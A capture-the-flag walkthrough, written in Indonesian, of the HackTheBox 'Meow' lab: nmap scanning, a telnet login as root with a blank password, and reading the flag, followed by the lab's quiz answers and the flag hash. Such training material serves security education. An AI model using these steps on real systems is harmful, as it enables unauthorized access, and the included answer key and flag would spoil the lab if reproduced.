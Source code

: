 # HackTheBox - Starting Point Walkthrough
Created By [Badzlan Nur Dhabith](https://www.linkedin.com/in/badzlannurdhabith/)

## Challenge : Meow
### Steps and Solutions
Pertama lakukan pengecekan apakah sudah ada tunnel ip target, dengan command :
```
ifconfig
```
```
┌──(root㉿localhost)-[~]
└─# ifconfig                                    
...
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.56  netmask 255.255.254.0  destination 10.10.14.56
        inet6 dead:beef:2::1036  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::8e5c:baa2:365b:2370  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1  bytes 48 (48.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
jika sudah ada tun0 berarti kita sudah connect dengan target dengan openvpn

------------------------------------------------------------------------------------------------------

Lalu, cek apakah kita dan target sudah terhubung, dengan command :
```
ping [ip target]
```
```
┌──(root㉿localhost)-[~]
└─# ping 10.129.49.229
PING 10.129.49.229 (10.129.49.229) 56(84) bytes of data.
64 bytes from 10.129.49.229: icmp_seq=1 ttl=63 time=253 ms
64 bytes from 10.129.49.229: icmp_seq=3 ttl=63 time=268 ms
64 bytes from 10.129.49.229: icmp_seq=4 ttl=63 time=257 ms
64 bytes from 10.129.49.229: icmp_seq=5 ttl=63 time=255 ms
--- 10.129.49.229 ping statistics ---
5 packets transmitted, 4 received, 20% packet loss, time 4021ms
rtt min/avg/max/mdev = 253.414/258.182/267.999/5.776 ms
```

------------------------------------------------------------------------------------------------------

Selanjutnya, lakukan scanning port target untuk melihat port dan service yang open, dengan command :
```
nmap -sV [ip target]
```
```
┌──(root㉿localhost)-[~]
└─# nmap -sV 10.129.49.229        
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-01 23:10 EDT
Nmap scan report for 10.129.49.229
Host is up (0.35s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.22 seconds
```
dari hasil scanning terlihat bahwa port yang open adalah port 23 dengan service telnet

------------------------------------------------------------------------------------------------------

Kemudian, kita coba telnet target untuk melihat file dan direktori target menggunakan command :
```
telnet [ip target]
```
login sebagai root agar bisa masuk tanpa password
```
┌──(root㉿localhost)-[~]
└─# telnet 10.129.49.229                                                                                         
Trying 10.129.49.229...
Connected to 10.129.49.229.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 02 Sep 2022 03:22:51 AM UTC

  System load:           0.08
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             141
  Users logged in:       0
  IPv4 address for eth0: 10.129.49.229
  IPv6 address for eth0: dead:beef::250:56ff:feb9:98fc

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
```

------------------------------------------------------------------------------------------------------

Selanjutnya, kita coba lihat list file dan direktori target dengan command :
```
ls
```
```
root@Meow:~# ls
flag.txt  snap
```
ternyata ada file bernama flag.txt

------------------------------------------------------------------------------------------------------

Lalu open file tersebut dengan command :
```
cat [nama file]
```
```
root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19
```

------------------------------------------------------------------------------------------------------

### Walkthrough
#### Task 1
What does the acronym VM stand for?
##### Answer : ```Virtual Machine```

#### Task 2
What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.
##### Answer : Terminal

#### Task 3
What service do we use to form our VPN connection into HTB labs?
##### Answer : OpenVPN

#### Task 4
What is the abbreviated name for a 'tunnel interface' in the output of your VPN boot-up sequence output?
##### Answer : tun

#### Task 5
What tool do we use to test our connection to the target with an ICMP echo request?
##### Answer : ping

#### Task 6
What is the name of the most common tool for finding open ports on a target?
##### Answer : nmap

#### Task 7
What service do we identify on port 23/tcp during our scans?
##### Answer : telnet

#### Task 8
What username is able to log into the target over telnet with a blank password?
##### Answer : root

#### Submit Flag
Submit root flag
##### Answer : b40abdfe23665f766f9c61ecba8a4c19
